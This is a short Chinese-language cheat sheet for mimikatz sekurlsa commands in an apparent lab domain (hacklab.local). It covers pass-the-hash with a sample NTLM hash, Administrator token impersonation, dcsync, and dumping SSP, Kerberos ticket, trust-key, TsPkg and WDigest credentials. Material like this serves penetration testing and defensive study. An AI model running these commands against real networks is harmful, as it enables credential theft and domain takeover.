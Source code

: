 ## pth

执行Pass-the-Hash、Pass-the-Key和Over-Pass-the-Hash。认证成功后，将运行一个程序（注：默认为cme.exe）

```
mimikatz # sekurlsa::pth /user:Administrator /domain:hacklab.local /ntlm:b09a14d2d325026f8986d4a874fbcbc7
```

**令牌模拟**
当前账号是普通域用户，知道Administrator的哈希

模拟Administrator的令牌，使用```/impersonate```参数
```
mimikatz # sekurlsa::pth /user:Administrator /domain:hacklab.local /ntlm:b09a14d2d325026f8986d4a874fbcbc7 /impersonate
```

现在在Administrator的上下文中可以执行dcsync
```
mimikatz # lsadump::dcsync /user:Administrator
```

## ssp

列出Security Support Provider (SSP)凭据

```
mimikatz # sekurlsa::ssp
```

## tickets
列出属于目标服务器/工作站上所有认证用户的Kerberos ticket。与kerberos::list不同，sekurlsa使用内存读取，不受密钥输出的限制。Sekurlsa也可以访问其他会话（用户）的票据。

```
mimikatz # sekurlsa::tickets
```

## trust

检索林信任keys
```
mimikatz # sekurlsa::trust
```

## tspkg

列出 TsPkg凭据，这个凭证提供者用于终端服务器认证
```
mimikatz # sekurlsa::tspkg
```

## wdigest
列出了WDigest凭证。据微软称，WDigest.dll是在Windows XP操作系统中引入的。Digest认证协议旨在与超文本传输协议（HTTP）和简单认证安全层（SASL）交换使用
```
mimikatz # sekurlsa::wdigest
```
